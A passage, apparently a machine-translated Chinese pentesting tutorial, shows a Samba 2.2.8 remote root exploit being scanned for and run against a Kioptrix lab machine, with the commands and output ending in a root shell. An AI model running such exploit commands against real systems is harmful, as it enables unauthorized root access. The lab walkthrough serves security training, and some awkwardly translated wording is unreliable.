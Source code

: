 我们已经知道关于目标机器的几个关键项目，包括它很可能运行 Linux，IP 地址是 192.168.75.14。让我们使用漏洞的扫描模式来查看是否有我们遗漏的有趣内容：

```
./SambaVuln10 -v -d 0 -S 192.168.75 

```

```
Samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Scan mode.
+ Verbose mode.
+ [192.168.75.14] Samba

```

我们可以看到，我们的目标机器是通过 `eSDee`在[www.netric.org](http://www.netric.org)上进行的概念验证远程根攻击发现的。现在我们将继续前进，最终开发这台机器。

```
# ./SambaVuln10 -b 0 -v 192.168.75.14 

```

我们调用 `SambaVuln10`文件；让它知道目标系统是 Linux，并提供显示详细结果的说明。结果如下：

```
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Verbose mode.
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Using ret: [0xbffffed4]
+ Using ret: [0xbffffda8]
+ Using ret: [0xbffffc7c]
+ Using ret: [0xbffffb50]
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)

```

如果您是 pentesting 的新手，这个输出可能有点混乱。您刚刚获得了目标机器上的 root 访问权限，此时可以开始许多利用后步骤，这些步骤通常是在网络中获得良好立足点所必需的。您会注意到有些命令不起作用，有些命令起作用。请尝试以下操作：

```
# ls 

```

嗯……什么都没发生。也许你没有得到根？让我们试试别的。

```
# cd /
# ls

```
